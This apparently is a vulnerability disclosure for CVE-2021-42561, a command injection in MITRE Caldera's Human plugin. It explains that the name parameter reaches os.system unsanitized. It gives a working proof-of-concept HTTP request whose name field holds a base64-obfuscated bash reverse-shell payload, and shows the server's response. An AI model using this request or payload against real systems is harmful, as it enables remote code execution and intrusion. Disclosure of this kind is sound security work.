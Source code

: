# CVE-2021-42561: Command Injection Via the Human Plugin in MITRE Caldera

In Caldera (versions <=2.8.1) the Human plugin passes the unsanitized name parameter to a python "os.system" function. This allow attackers to use shell metacharacters (E.g. backticks "``" or dollar parenthesis "$()" ) in order to escape the current command and execute arbitrary shell commands.
<br/>

### Software:

The MITRE Caldera software can be found [here](https://github.com/mitre/caldera).

### Requirements:

This vulnerability requires:
<br/>
- Valid user credentials

### Proof Of Concept:

In order to validate the presence of the vulnerability and to visualise it easier, a few python "print" functions have been inserted in the vulnerable python file "plugins/human/app/human_svc.py".

<img src="Images/human_svc.png"/>

It can be observed that the name inserted via the web interface does not get sanitized and is passed directly to "os.system".
<br/>

The following HTTP request was used to obtain a reverse shell (in this case on port 5555 localhost).
<br/>

Request:
```
POST /plugin/human/api HTTP/1.1
Host: 192.168.243.180:8888
Content-Type: application/json
Content-Length: 261
Cookie: API_SESSION="gAAAAABflyHPOgBzo23QDlLIjKrH8HRnuAw0qAV1Fd1-OTOoGkREAdaqgPUUQUJHIB9R3aEa1YQjSJ3J4-HJ7VDYOTgBr68z9AiJGs98Ut_5bIyHDz5NDL4CllRLdb_nOM7eSVZAPlrC-vybuI3UyhSNTDJ67zJj-A=="

{"index":"build_human","platform":"linux","name":"$(bash -c '{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvNTU1NSAwPiYxCg==}|{base64,-d}|bash')","task_cluster_interval":"500","task_interval":"10","task_count":"5","tasks":["ExecuteCommand"],"extra":["anything"]}
```

Response:
```
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
Content-Length: 345
Date: Mon, 26 Oct 2020 19:35:59 GMT
Server: Python/3.6 aiohttp/3.6.2
Connection: close

{"name": "$(bash -c '{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvNTU1NSAwPiYxCg==}|{base64,-d}|bash')", "platform": "linux", "task_interval": "10", "task_cluster_interval": "500", "tasks_per_cluster": "5", "extra": ["anything"], "workflows": [{"name": "ExecuteCommand", "description": "Execute Custom Commands", "file": "execute_command.py"}]}
```

Result:
<img src="Images/malicious_human.png"/>
<img src="Images/rce.png"/>

